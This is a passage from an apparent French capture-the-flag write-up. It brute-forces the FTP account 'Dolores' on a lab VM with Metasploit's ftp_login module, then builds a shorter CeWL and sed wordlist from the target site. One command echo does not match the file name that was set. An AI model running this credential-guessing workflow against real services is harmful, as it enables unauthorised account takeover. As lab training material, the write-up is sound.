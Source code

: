Le module [__ftp_login__](https://www.offensive-security.com/metasploit-unleashed/scanner-ftp-auxiliary-modules/) du framework Metasploit est en mesure d'automatiser cette [attaque par dictionnaire](https://en.wikipedia.org/wiki/Password_cracking). Malheureusement, aucun de ces quatre-vingt-quatre mots de passe n'est celui de Dolores.

```console
root@blinils:~# msfconsole --quiet
msf5 > use auxiliary/scanner/ftp/ftp_login
msf5 auxiliary(scanner/ftp/ftp_login) > set BRUTEFORCE_SPEED 1
BRUTEFORCE_SPEED => 1
msf5 auxiliary(scanner/ftp/ftp_login) > set PASS_FILE dicoWWorld8-X.txt
PASS_FILE => dicoWWorld.txt
msf5 auxiliary(scanner/ftp/ftp_login) > set USERNAME Dolores
USERNAME => Dolores
msf5 auxiliary(scanner/ftp/ftp_login) > set RHOSTS 192.168.56.101
RHOSTS => 192.168.56.101
msf5 auxiliary(scanner/ftp/ftp_login) > set STOP_ON_SUCCESS true
STOP_ON_SUCCESS => true
msf5 auxiliary(scanner/ftp/ftp_login) > run

[*] 192.168.56.101:21     - 192.168.56.101:21 - Starting FTP login sweep
[!] 192.168.56.101:21     - No active DB -- Credential data will not be saved!
[-] 192.168.56.101:21     - 192.168.56.101:21 - LOGIN FAILED: Dolores:Westworld (Incorrect: )
[-] 192.168.56.101:21     - 192.168.56.101:21 - LOGIN FAILED: Dolores:narrative (Incorrect: )
[-] 192.168.56.101:21     - 192.168.56.101:21 - LOGIN FAILED: Dolores:flowchart (Incorrect: )
[-] 192.168.56.101:21     - 192.168.56.101:21 - LOGIN FAILED: Dolores:Abernathy (Incorrect: )
--snip--
[-] 192.168.56.101:21     - 192.168.56.101:21 - LOGIN FAILED: Dolores:Sweetwater (Incorrect: )
[-] 192.168.56.101:21     - 192.168.56.101:21 - LOGIN FAILED: Dolores:Bernathy (Incorrect: )
[-] 192.168.56.101:21     - 192.168.56.101:21 - LOGIN FAILED: Dolores:Pinterest (Incorrect: )
[-] 192.168.56.101:21     - 192.168.56.101:21 - LOGIN FAILED: Dolores:Collapse (Incorrect: )
[*] 192.168.56.101:21     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Soit la taille du mot de passe de Dolores est inférieure à huit caractères, soit il s'agit d'une fausse piste... réessayons avec des mots de passe entre quatre et sept caractères ! La commande ```sed``` permet de retirer à la fois les mots d'au moins huit lettres et les sauts de ligne superflus.

```console
root@blinils:~# cewl -d 1 -m 4 -w dicoWWorld.txt http://192.168.56.101
CeWL 5.4.4.1 (Arkanoid) Robin Wood (robin@digi.ninja) (https://digi.ninja/)

root@blinils:~# sed -r 's/\b\w{8,}\s?\b//g' dicoWWorld.txt | sed '/^[[:space:]]*$/d' > dicoWWorld4-7.txt

root@blinils:~# wc -l dicoWWorld4-7.txt
292 dicoWWorld4-7.txt

root@blinils:~# head -n 5 dicoWWorld4-7.txt
Dolores
guest
with
Teddy
Insider
```
